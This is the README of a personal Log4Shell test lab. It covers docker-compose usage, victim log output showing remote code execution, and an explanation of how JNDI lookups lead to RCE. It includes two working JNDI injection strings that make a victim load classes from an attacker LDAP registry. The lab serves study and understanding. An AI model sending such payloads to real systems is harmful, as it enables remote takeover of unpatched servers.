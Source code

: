 # Log4Shell Test

This repository serves as my testbed for the Log4Shell exploit. It hosts the
code I played around with to understand how it works. Kotlin was used whenever
possible, but raw Java was used for the remote code since using Kotlin would've
necessitated serving its whole runtime library.


## Usage

This codebase comes packaged with a `docker compose` file for ease of use. To
see the exploit in action, simply run in the root of this repository
```
$ docker compose up
```

At first, there will be a few `Error looking up JNDI resource`. This is
expected, as it takes some time for the LDAP registry to be populated with the
exploit data. After about six seconds however, something resembling the
following message should be visible, indicating a successful remote code
execution.
```
log4shell-test-attacker_codebase-1             | 172.25.0.5 - - [30/Dec/2021:16:41:22 +0000] "GET /FactoryClass.class HTTP/1.1" 200 1695
log4shell-test-victim-1                        | RCE Acheived in FactoryClass::getObjectInstance!
log4shell-test-victim-1                        | name:    cn=made-class,dc=ldap-registry,dc=attacker
log4shell-test-victim-1                        | nameCtx: com.sun.jndi.ldap.LdapCtx@6e2c9341
log4shell-test-victim-1                        | env:     {}
log4shell-test-victim-1                        | obj:     Reference Class Name: MadeClass
log4shell-test-victim-1                        |
log4shell-test-attacker_codebase-1             | 172.25.0.5 - - [30/Dec/2021:16:41:22 +0000] "GET /RCEMain.class HTTP/1.1" 200 468
log4shell-test-victim-1                        | Function rceMain called!
log4shell-test-attacker_codebase-1             | 172.25.0.5 - - [30/Dec/2021:16:41:22 +0000] "GET /MadeClass.class HTTP/1.1" 200 573
log4shell-test-victim-1                        | RCE Acheived in MadeClass::toString!
log4shell-test-victim-1                        | Function rceMain called!
log4shell-test-victim-1                        | 16:41:22.343 TRACE MainKt - Attempted injection: MadeClass
```

### Options

As detailed at the end of the "Exploit Resources" section, there are two methods
of triggering remote code execution on the victim. One involves a `Reference`
and a factory, while the other involves serialization.

The factory method is the default, but the which method to use can be chosen by
modifying the payload given to the victim. Change the `JAVA_OPTS` environment
variable in the `docker compose` file to define the `victim-payload` system
property to read either the first or second line depending on whether the former
or latter method is desired.
```
$${jndi:ldap://attacker_ldap_registry:1389/cn=made-class,dc=ldap-registry,dc=attacker}
$${jndi:ldap://attacker_ldap_registry:1389/cn=serialized-class,dc=ldap-registry,dc=attacker}
```


## Exploit Resources

Many other authors have covered how this exploit works far better than I ever
could. As such, I'll only give a very brief summary here and link to other
resources I found useful.

For a variety of reasons I don't fully understand, it would be nice to delay
specifying exactly how an application is set up as much as possible. For
example, it would be nice to not have to code to a particular implementation of
a database and have that baked into a service's `.class` files. Instead, it
would be better to specify that we need a `"Account Database"` and have that
service discoverable at runtime.

The Java Platform allows for this flexibility. It allows code to lookup,
download, and execute remote objects (not `class`es, objects). This way, one
service doesn't need to have its binaries coupled with another. They can still
communicate with each other as long as they share an `interface`.

There are many ways to acheive this remote-lookup functionality. Java provides a
method to store serialized or factory-generated objects in LDAP directories. It
also provides a framework to invoke remote methods, and that can be made to do
the same thing.

All these different providers of this remote-lookup service are abstracted away
by the Java Naming and Directory Interface (JNDI) framework. JNDI provides
interfaces to LDAP, RMI, CORBA, and other lookup services.

Of course, the whole point of this framework is to download remote objects so
the application can do stuff with them, and this can lead to problems. Say some
attacker could control the target of a JNDI lookup. Then, they could inject
their own class into the application. Presumably, it would then have methods
called on it, leading to Remote Code Execution (RCE).

There are many ways to actually acheive RCE with this vector. One way is to
create a `Reference` to an object. `Reference` objects hold information about
another object, including the factory class to use to create them. The factory
class is where the RCE happens first. Another way is to store a serialized
object in an LDAP server. This object is deserialized on the victim, then a
method is called on it to trigger RCE.

### Overview Resources
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w):
  * [Overview](https://www.youtube.com/watch?v=w2F67LbEtnk)
  * [Internals](https://www.youtube.com/watch?v=iI9Dz3zN4d8)
* [*A Journey From JNDI/LDAP Manipulation to Remote Code Execution Dream Land*](https://www.youtube.com/watch?v=Y8a5nB-vy78)
* [Flow Diagram](https://www.radware.com/security/threat-advisories-and-attack-reports/log4shell-critical-log4j-vulnerability/)
* [Impact](https://www.lunasec.io/docs/blog/log4j-zero-day/)

### JNDI Resources
* [Tutorial](https://docs.oracle.com/javase/jndi/tutorial/):
    * [Tutorial: How Java Objects are Stored](https://docs.oracle.com/javase/jndi/tutorial/objects/index.html)
* [Technotes](https://docs.oracle.com/javase/8/docs/technotes/guides/jndi/):
  * [LDAP](https://docs.oracle.com/javase/8/docs/technotes/guides/jndi/jndi-ldap.html)
  * [RMI](https://docs.oracle.com/javase/7/docs/technotes/guides/jndi/jndi-rmi.html)
* [Java Documentation](https://docs.oracle.com/javase/8/docs/api/):
  * [`DirContext`](https://docs.oracle.com/javase/8/docs/api/javax/naming/directory/DirContext.html)
  * [`Reference`](https://docs.oracle.com/javase/8/docs/api/javax/naming/Reference.html)
  * [`ObjectFactory`](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html)
* [RFC 2713](https://datatracker.ietf.org/doc/html/rfc2713)


## Limitations

Obviously, this repository uses an out-of-date version of Log4J - version
`2.14.0` specifically. It also uses an out-of-date version of Java due to the
type of exploit it uses. Instead of using gadgets already in the `CLASSPATH`, it
requires the victim to download `.class` files from a remote codebase. This
capability was made disabled by default through the
`com.sun.jndi.ldap.object.trustURLCodebase` property just after version `8u171`.

Additionally, it doesn't add any instrumentation to Log4J itself. It treats the
library as a black box that allows arbitrary JNDI queries.
